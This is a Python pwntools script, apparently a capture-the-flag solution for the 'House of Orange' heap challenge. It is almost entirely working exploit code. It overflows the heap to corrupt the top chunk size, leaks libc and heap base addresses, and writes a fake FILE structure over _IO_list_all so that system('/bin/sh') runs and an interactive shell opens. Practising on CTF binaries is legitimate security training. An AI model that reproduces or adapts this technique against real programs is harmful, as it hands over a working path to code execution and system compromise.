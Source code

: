 ```python
	s.sendlineafter('Your choice : ','3')
	s.sendlineafter('Length of name :',namelen)
	s.sendlineafter('Name:', name)
	s.sendlineafter('Price of Orange:',price)
	s.sendlineafter('Color of Orange:',color)

def see():
	s.sendlineafter('Your choice : ','2')

pause()
build(str(0x28),'A' * 0x28,'1','1')

# top chunk size - 20f91
# heap overflow
edit(str(0x58),'B'*0x48 + p64(0xf91) ,'1', '1')

build(str(0x1000),'B' * 8,'1','1')
build(str(0x400),'B' * 8,'1','1')

# libc & heap leak
see()
s.recvuntil('B' * 8)
libc_base = u64(s.recv(6) + "\x00" * 2) - 0x3c5188
iolistall = libc_base + 0x3c5520
system = libc_base +  0x45390

edit(str(0x11),'B' * 0x10,'1', '1')
see()
s.recvuntil('B' * 0x10)
heap_base = u64(s.recv(6) + "\x00" * 2) - 0xa

log.info("LIBC_BASE : " + hex(libc_base))
log.info("HEAP_BASE : " + hex(heap_base))
log.info("IO_LIST_ALL : " + hex(iolistall))

# make fake struct
payload = 'B' * 0x420
payload += '/bin/sh\x00' + p64(0x61) + 'A' * 8 + p64(iolistall-0x10)
payload += p64(0) * 0x3 + p64(1) + p64(2) + p64(0) * 11
payload += p64(heap_base + 0x520) + p64(0) * 3 + p64(1) + p64(0) * 2 +p64(heap_base + 0x618)
payload += p64(system) * 0x40

edit(str(0x1000),payload,'1', '1')

s.interactive()
```
    
    
    
    
    
    
    
    
    
    
